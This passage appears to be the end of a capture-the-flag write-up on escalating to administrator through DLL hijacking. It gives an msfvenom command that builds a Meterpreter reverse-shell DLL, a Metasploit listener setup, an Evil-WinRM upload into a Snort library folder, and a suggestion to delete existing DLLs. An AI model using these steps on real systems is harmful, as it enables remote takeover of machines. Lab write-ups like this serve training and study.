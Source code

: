 ```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1337 -f dll > tcapi.dll
```

* Set up a listener in Metasploit:

```bash
msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost TUN0
set lport 1337
run
```

* Uploaded `tcapi.dll` to `C:\snort\lib\snort_dynamicpreprocessor` using `jdoe`'s shell in Evil-WinRM.

```bash
upload tcapi.dll tcapi.dll # In Evil-WinRM
## If you got no access try to remove .dll files with
dell *.dll 
## Then
upload tcapi.dll tcapi.dll
```

### WE IN /;

<figure><img src="https://i.imgur.com/QvEnltu.png" alt=""><figcaption><p><strong>WE FUCKED THE ADMIN UP</strong></p></figcaption></figure>

* Successfully executed the DLL payload, exploiting the vulnerability.
* Gained a Meterpreter shell with administrative access through DLL hijacking.

**ANOTHER${IFS}SHITY${IFS}THING<<\<SEE${IFS}YOU/:**
